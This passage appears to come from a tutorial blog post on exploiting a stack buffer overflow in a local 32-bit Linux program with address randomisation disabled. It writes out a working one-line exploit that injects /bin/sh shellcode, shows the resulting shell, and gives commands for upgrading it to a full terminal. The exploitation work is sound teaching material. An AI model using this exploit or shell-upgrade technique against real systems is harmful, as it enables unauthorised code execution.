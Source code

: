 ```
0xffffcb80:     0xf7f63d80
```

The ``setarch`` command set the memory organization to be fixed and not randomized, in order
to follow our computer model; otherwise the addresses of objects in the stack change
for every execution of the process. This means that we are working in a simplified setup but
don't worry, in future posts we would like to build a more complete understanding of how
bypass real protections.

Now all the pieces are in place, we can build the complete exploit from the command line

```
$ (python -c 'import sys;sys.stdout.write("A"*44 + "\xb0\xcb\xff\xff")'; shellcraft i386.linux.sh --format r ; echo ; cat) | \
    setarch i386 --addr-no-randomize  simplest_excalation
What's your name? hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����jhh///sh/bin��h�4$ri1�QjY�Q��1�j
                                                                                                         X̀
id
uid=1000(gipi) gid=1000(gipi) groups=1000(gipi)
```

We have a shell! So our process is completed, but I want to give you a trick: how you can see the shell is not
fully functional (for example the ``TAB`` autocompletion doesn't work). To have a fully functional shell you can
use the following command line jutsu: first of all, I associate a ``pty`` with the terminal

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

then I do a Ctrl-z to stop the process; at this point I should have returned to the original shell.

Configure the terminal in raw mode without echo and re-enable the shell

```
$ stty raw -echo
$ fg #  this will not appear since I have disabled the echo
```

Now I can ``reset`` the shell and obtain a fully-fledged terminal.

### Environment variables

If you try to replicate my procedure in your system probably you'll find that the 
position of the buffer ``name`` is different, but why? Simply because the process
needs some extra parameters passed from the shell from which was launched.

[The signature](https://stackoverflow.com/questions/2108192/what-are-the-valid-signatures-for-cs-main-function) of the ``main()`` function allows to pass up to
three arguments

 - ``argc``: the number of arguments passed from command line
 - ``argv``: the arguments passed from command line
 - ``envp``: the environment variable passed from the shell executing the process
